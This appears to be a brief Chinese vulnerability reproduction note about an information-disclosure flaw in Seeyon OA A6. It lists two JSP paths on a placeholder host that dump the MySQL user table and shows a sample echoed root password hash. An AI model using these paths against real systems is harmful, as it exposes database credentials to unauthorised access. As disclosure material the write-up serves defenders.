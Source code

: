 # 致远OA A6 敏感信息泄露（一）

> 原文：[https://www.zhihuifly.com/t/topic/3350](https://www.zhihuifly.com/t/topic/3350)

# 致远OA A6 敏感信息泄露（一）

## 一、漏洞简介

该漏洞泄露了数据库用户的账号，密码hash。访问该文件直接执行了Select * from mysql.user;并回显

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/createMysql.jsp `[http://www.0-sec.org/yyoa/ext/createMysql.jsp](http://www.0-sec.org/yyoa/ext/createMysql.jsp)` 
```

回显内容：

```
root `*1532B21FE550E115F113DAA9A26D0EEEEF8DEDC7` 
```